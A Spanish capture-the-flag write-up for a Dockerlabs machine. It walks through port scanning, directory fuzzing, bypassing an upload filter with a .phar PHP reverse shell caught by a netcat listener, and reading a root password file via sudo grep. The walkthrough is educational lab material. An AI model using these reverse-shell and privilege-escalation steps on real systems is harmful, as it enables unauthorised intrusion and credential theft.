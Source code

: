 # Dockerlabs

**Nivel:** Fácil

**Autor:** [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

------------------
## Escaneo 

Realizamos un escaneo general con **nmap** en la IP de la máquina víctima para identificar los puertos abiertos: 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

A continuación, utilizamos los scripts predeterminados de **nmap** para recopilar más información sobre los puertos identificados:

```shell
nmap -sCV -p80 172.17.0.2
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Dockerlabs
```

Evidenciamos un sitio web accedemos a este para inspeccionar su contenido:

![image](https://github.com/user-attachments/assets/b843c726-78b8-4d8f-8292-0f0adbe4572b)

Después de revisar el código de la página web e interactuar con esta no encontramos información relevante.

------------------
## Enumeración

Realizamos **fuzzing** utilizando **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x html,php,txt,js -b '' -s 200,301
---------------------------------------------------------------------------------
/index.php            (Status: 200) [Size: 8235]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/scripts.js           (Status: 200) [Size: 919]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
```

Encontramos los ficheros **machine.php** y **upload.php** y el directorio **uploads**.

--------------
## Explotación

Al revisar la página **machine.php**, observamos que el formulario permite la carga de ficheros:

![image](https://github.com/user-attachments/assets/6a23ecd1-fdf2-46c0-8566-2e97b447704f)

Ahora intentamos subir una shell reversa en PHP:

Configuramos la shell [PHP Pentester monkey reverse shell](https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash) y lo guardamos como la extensión **PHP**. 

Nótese que hemos establecido **172.17.0.1** como la **IP** y **4444** como el **PORT** de escucha para el listener.

Sin embargo, la carga de ficheros está restringida a ficheros **zip**

![image](https://github.com/user-attachments/assets/66e941d2-aeeb-40e6-99bc-e5ac58ed30c6)

Procedemos a capturar el request con [Burp Suite](https://portswigger.net/burp/communitydownload) **Proxy** y ejecutar un **fuzzing** con **Intruder** para identificar extensiones **PHP** permitidas:

![image](https://github.com/user-attachments/assets/542229d9-2438-45ee-bf33-6bcec04b7608)

![image](https://github.com/user-attachments/assets/fa80e0e7-84bc-4a65-a3e7-3749bacc01df)

![image](https://github.com/user-attachments/assets/143d5370-a248-4019-9489-8fa2504f8403)

![image](https://github.com/user-attachments/assets/d8fce90b-0d49-4719-bb81-e1c3698e3c87)

Observamos que podemos subir ficheros con la extensión [**PHAR**](https://www.php.net/manual/es/phar.fileformat.phar.php)

Iniciamos el **listener** para la shell reversa con **netcat**:  

```shell
nc -lvnp 4444 
-------------------------------------------------------------------
listening on [any] 4444 ...
```

Ahora ejecutamos la shell reversa para obtener acceso inicial a la máquina víctima. Nótese que los ficheros almacenados se encuentran ubicados en el directorio **uploads**.

![image](https://github.com/user-attachments/assets/33c4d87b-80ef-4126-963a-3ae00cc82588)

```shell
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 48346
Linux 8b47fc7b6b14 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 x86_64 x86_64 GNU/Linux
 22:41:59 up 12:39,  0 user,  load average: 0.10, 0.12, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@8b47fc7b6b14:/$
```
------------------------------
### Tratamiento de TTY

Configuramos el **TTY** para una operación cómoda en la consola:

```shell
script /dev/null -c bash 
```
Presionamos **Ctrl  +  Z**, y luego ejecutamos:

```shell
stty raw -echo; fg
reset xterm
stty rows 35 columns 156
export TERM=xterm
export SHELL=bash
```

En los comandos anteriores es necesario ajustar los valores **rows** y **columns**  con los valores obtenidos al ejecutar en una consola de la máquina atacante el comando:

```shell
stty size
```

Ahora podemos utilizar **Ctrl+L** y **Ctrl+C**.

------------------------------
## Escalando privilegios

Verificamos si es posible ejecutar algún fichero como **root** con **sudo -l**:

```shell
sudo -l
------------------------------------------------
User www-data may run the following commands on 8b47fc7b6b14:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```

Podemos ejecutar **cut*** o **grep** como **root**. [GTFOBins for cut](https://gtfobins.github.io/gtfobins/cut/#sudo), [GTFOBins for grep](https://gtfobins.github.io/gtfobins/grep/#sudo).

Nótese que ambos binarios no permiten escalar privilegios, sin embargo, si permiten acceder a ficheros restringidos.

Revisamos los directorios del sistema para ver si encontramos algún fichero interesante:

```shell
ls /etc/
------------------------------------------------
adduser.conf            cron.daily      gai.conf   init.d         localtime    nsswitch.conf  profile.d  resolv.conf  ssl                sysctl.d
alternatives            debconf.conf    gnutls     issue          login.defs   opt            protocols  rmt          subgid             systemd
apache2                 debian_version  group      issue.net      logrotate.d  os-release     rc0.d      rpc          subgid-            terminfo
apt                     default         group-     kernel         lsb-release  pam.conf       rc1.d      security     subuid             timezone
bash.bashrc             deluser.conf    gshadow    ld.so.cache    machine-id   pam.d          rc2.d      selinux      subuid-            ucf.conf
bindresvport.blacklist  dpkg            gshadow-   ld.so.conf     mime.types   passwd         rc3.d      services     sudo.conf          ufw
ca-certificates         e2scrub.conf    gss        ld.so.conf.d   mke2fs.conf  passwd-        rc4.d      shadow       sudo_logsrvd.conf  update-motd.d
ca-certificates.conf    environment     host.conf  ldap           mtab         perl           rc5.d      shadow-      sudoers            xattr.conf
cloud                   ethertypes      hostname   legal          nanorc       php            rc6.d      shells       sudoers.d
cron.d                  fstab           hosts      libaudit.conf  networks     profile        rcS.d      skel         sysctl.conf
```

```shell
ls /opt/
------------------------------------------------
nota.txt
```

Encontramos el fichero **nota.txt** ubicado en el directorio **opt**, procedemos a verificar el contenido del mismo:

```shell
cat /opt/nota.txt
------------------------------------------------
Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.
```

Encontramos un segundo fichero **clave.txt**, que seguramente está restringido al usuario **root** dado que se encuentra en el home del usuario.

```shell
cat /root/clave.txt
------------------------------------------------
cat: /root/clave.txt: Permission denied
```

Ahora utilizando el binario **grep** y siguiendo los comandos de [GTFOBins for grep](https://gtfobins.github.io/gtfobins/grep/#sudo) intentamos acceder al fichero restringido:

```shell
LFILE=/root/clave.txt
sudo grep '' $LFILE
```

Hemos obtenido la contraseña del usuario **root** y procedemos con la autenticación como **root** usando **su**:

```shell
su root
```

Hemos obtenido acceso como super usuario:

```shell
whoami
----------------
root
```

